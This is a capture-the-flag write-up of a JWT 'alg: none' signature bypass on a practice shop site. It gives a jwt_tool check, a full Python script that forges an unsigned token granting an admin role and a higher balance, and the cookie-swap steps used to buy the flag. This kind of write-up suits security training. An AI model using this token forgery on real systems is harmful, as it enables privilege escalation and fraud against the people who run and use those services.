







 # RSTCON 2025 CTF - None Shall Pass Write-up



### Step 1: Initial Analysis and Problem Description

The challenge presents a web application called **MetaShop**, an e-commerce site for tech gadgets. User authentication is handled via **JWT (JSON Web Token)**, which is stored in an `auth_token` cookie.

The objective is to purchase an item named **"FLAG"** which costs **1337.0 USD**. However, the initial user balance is only **10.0 USD**, making the purchase impossible through normal means.

The challenge hint, *"What happens when the algorithm is set to 'none'?"*, directly points to a well-known JWT vulnerability involving the ability to switch the signature algorithm to `"none"`.

**Goal:** Forge a custom JWT with a modified payload (an increased balance and an admin role) to bypass the signature verification and afford the flag.

### Step 2: Exploitation Strategy

The attack leverages the **CVE-2015-9235** vulnerability, where some JWT library implementations on the server-side trust the `alg` field in the token's header. By setting the `alg` value to `none` (or case variations like `None`, `NONE`), the server can be tricked into thinking no signature is required and will skip the verification step entirely. This allows us to arbitrarily modify the token's payload.

The exploitation plan is as follows:
1.  Verify the vulnerability using the `jwt_tool` utility to confirm that the server accepts tokens with a `none` algorithm.
2.  Craft a new token with a modified header (`"alg": "None"`) and payload (increased `balance` and `role` changed to `admin`).
3.  Replace the `auth_token` cookie in the browser or via an intercepting proxy like Burp Suite.
4.  Purchase the flag item using the new, higher balance.

### Step 3: Step-by-Step Execution

#### 1. Verifying the Vulnerability with `jwt_tool`

First, I used `jwt_tool` to analyze the original token and check for common vulnerabilities. The command `jwt_tool.py <token> -X a` specifically tests for the algorithm switching attack.



The output confirmed that the server accepted a token with the `"None"` algorithm in its header, validating our hypothesis.

#### 2. Crafting the Malicious Token

To generate the new token, I wrote a simple Python script named `jwt.py`. This script creates a token with an `{"alg": "None"}` header and a modified payload, setting the `balance` to `1337` and the `role` to `admin`.

```python
# jwt.py

import base64
import json
from datetime import datetime, timedelta, timezone

def b64url(data):
    """Encodes data into Base64Url format."""
    return base64.urlsafe_b64encode(json.dumps(data).encode()).decode().rstrip("=")

def generate_jwt(user_id=321, username="NEMO1337", balance=1337, days_valid=30):
    """Generates a JWT with the specified parameters."""
    # Header with the "None" algorithm
    header = {"alg": "None"}

    # Set the token's expiration time
    kyiv_tz = timezone(timedelta(hours=2))
    now = datetime.now(kyiv_tz)
    exp_time = now + timedelta(days=days_valid)
    exp = int(exp_time.timestamp())
    
    # Payload with increased balance and admin role
    payload = {
        "user_id": user_id,
        "username": username,
        "balance": float(balance), # Ensure it's a float
        "role": "admin",
        "exp": exp
    }
    
    # Assemble the token (header.payload.) - the signature is empty
    token = f"{b64url(header)}.{b64url(payload)}."
    return token

if __name__ == "__main__":
    token = generate_jwt(balance=1337, days_valid=30)
    print("JWT:")
    print(token)
```

Running this script produced the ready-to-use token:



#### 3. Swapping the Token and Purchasing the Flag

I intercepted a request to the application using **Burp Suite** and replaced the value of the `auth_token` cookie with my newly generated token.



After sending the modified request, the server accepted the new token. The balance on the site updated to **$1337**. I then added the "FLAG" item to the cart.



Next, I proceeded to checkout and successfully completed the purchase.



Immediately after the purchase, a notification containing the flag appeared on the products page.



### Flag

`MetaCTF{JWT_N0n3_4lg_3xpl0it}`

### Unfortunately, while I was preparing this detailed write-up, the time for the flag submission expired, and I was unable to submit it.
